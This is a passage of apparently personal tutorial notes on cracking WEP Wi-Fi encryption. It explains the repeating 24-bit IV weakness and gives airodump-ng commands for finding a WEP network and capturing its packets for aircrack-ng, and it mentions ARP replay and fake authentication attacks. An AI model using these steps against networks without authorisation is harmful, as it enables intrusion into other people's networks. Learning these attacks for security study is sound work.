 - Now, I guess we can see the problem here. The IV is only 24 bits long, which means it can only have 2^24 different values, which is around 16 million values. This means that if we send enough packets, we will eventually start to repeat the IVs.
- IVs are really short only 24bits, that too sent in plain text.
- If, we are on a busy network IVs will repeat, this makes WEP vulnerable to statistical attacks.
- Repeated IVs let's you easily determine the key stream used to encrypt the data, and break the encryption.

    ```mermaid
    flowchart LR
        IV["IV - 24 bits"] --> WEP["WEP Packet"]
        Data["Encrypted Data / Ciphertext"] --> WEP
        ICV["ICV - Integrity Check Value, 32 bits"] --> WEP
    ```

## WEP Capturing Basics

- In order to crack WEP, we need to capture large number of packets from the network.
- Analyze the captured packets using `aircrack-ng` to find the key.
- First use the command `airodump-ng` to see the available networks and clients.

    ```bash
    airodump-ng wlan0 --band abg
    ```

- Once, listed look for the network with WEP Encryption, and note down the BSSID (MAC address of the access point) and the channel it is on.
- One of the key requirements for this attack to be succesfull is this must be a busy network, so that we can capture enough packets.

>[!WARNING]
> If the network is idle the process can be a little more complex, and may require you to use some other techniques like ARP request replay attack, or fake authentication attack to generate more traffic.

- Copy the BSSID and channel of the `target network` using `WEP` encryption.
- Now, we can start capturing packets using `airodump-ng` command.

    ```bash
    root@kali:~# airodump-ng --bssid <BSSID> -c <channel> -w capture wlan0
    ```
    The Output will look something like this:

    ```bash
    root@kali:~# airodump-ng --bssid MAC_WIFI -c 36 -w capture wlan0
    06:12:59  Created capture file "capture-01.cap".


    CH 36 ][ Elapsed: 4 hours 31 mins ][ 2025-07-27 10:44 

    BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  

    MAC_WIFI  -20   0   131951    22978  127  36   54e  WEP  WEP    

    BSSID              STATION            PWR   Rate    Lost    Frames  Notes
    Quitting...
    ```
